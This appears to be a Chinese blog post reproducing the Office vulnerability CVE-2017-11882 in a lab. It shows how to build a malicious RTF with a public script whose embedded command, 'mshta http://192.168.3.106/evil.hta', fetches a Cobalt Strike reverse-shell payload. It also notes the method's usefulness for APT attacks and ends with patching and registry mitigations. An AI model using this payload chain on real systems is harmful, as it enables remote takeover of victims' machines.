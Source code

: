 ```yaml
---
categories: 漏洞复现
date: "2017-11-21T00:00:00Z"
description: 本文记录一下针对CVE-2017-11882的漏洞复现
title: CVE-2017-11882漏洞复现
url: /archivers/2017-11-21/1
---
```



## 0x00 前言

参考backlion师傅的PDF，记录一下这个过程。

2017年11月14日，微软发布了11月份的安全补丁更新，其中比较引人关注的莫过于悄然修复了潜伏17年之久的Office远程代码执行漏洞（CVE-2017-11882）。该漏洞为Office内存破坏漏洞，影响目前流行的所有Office版本。攻击者可以利用漏洞以当前登录的用户的身份执行任意命令。
由于漏洞影响面较广，漏洞披露后，金睛安全研究团队持续对漏洞相关攻击事件进行关注。11月19日，监控到了已有漏洞POC在网上流传，随即迅速对相关样本进行了分析。目前该样本全球仅微软杀毒可以检测。

* 漏洞影响版本：
* Office 365
* Microsoft Office 2000      
* Microsoft Office 2003      
* Microsoft Office 2007 Service Pack 3
* Microsoft Office 2010 Service Pack 2
* Microsoft Office 2013 Service Pack 1
* Microsoft Office 2016

## 0x01 环境清单

* WindowsServer 2008 (192.168.3.114)
* Office 2007
* MAC OSX(192.168.3.106)

## 0X02 复现过程

### 使用Cobalt Strike生成hta反弹shell

![生成](../../../static/images/eca6cc68-4f5e-11ec-9ca9-00d861bf4abb.png)

将生成的hta文档放入WebServer根目录：http://192.168.3.106/evil.hta

我(Cobalt Strike)本地监听了一个8081端口，用来接收客户端的Shell


### 生成一个rtf/doc文档

github上已有生成脚本

`webdav_exec_CVE-2017-11882.py` 地址： http://payloads.online/tools/cve-2017-11882/webdav_exec_CVE-2017-11882.py

生成rtf文档：

```
python webdav_exec_CVE-2017-11882.py -u http://192.168.3.106/evil.hta -e "mshta http://192.168.3.106/evil.hta" -o test.rtf
!!! Completed !!!
```

最后将test.rtf在目标机器上执行 `=_=||`，其实可以实战的，对于APT的帮助很大

### 结果

目标机器上执行后，我们可以在Cobalt Strike看到来自客户端的会话

![shell](../../../static/images/ed07c464-4f5e-11ec-8978-00d861bf4abb.png)


## 0x03 修复建议

1、微软已经对此漏洞做出了修复。

* 下载`https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11882`  更新补丁进行修补
*  开启Windows Update功能，定期对系统进行自动更新

2、由于该公式编辑器已经17年未做更新，可能存在大量安全漏洞，建议在注册表中取消该模块的注册。

* 按下Win R组合键，打开cmd.exe
* 输入以下两条命令：
`reg add  “HKLM\SOFTWARE\Microsoft\Office\Common\COM Compatibility\{0002CE02-0000-0000-C000-000000000046} ” /v “Compatibility  Flags”  /t  REG_DWORD /d    0x400`




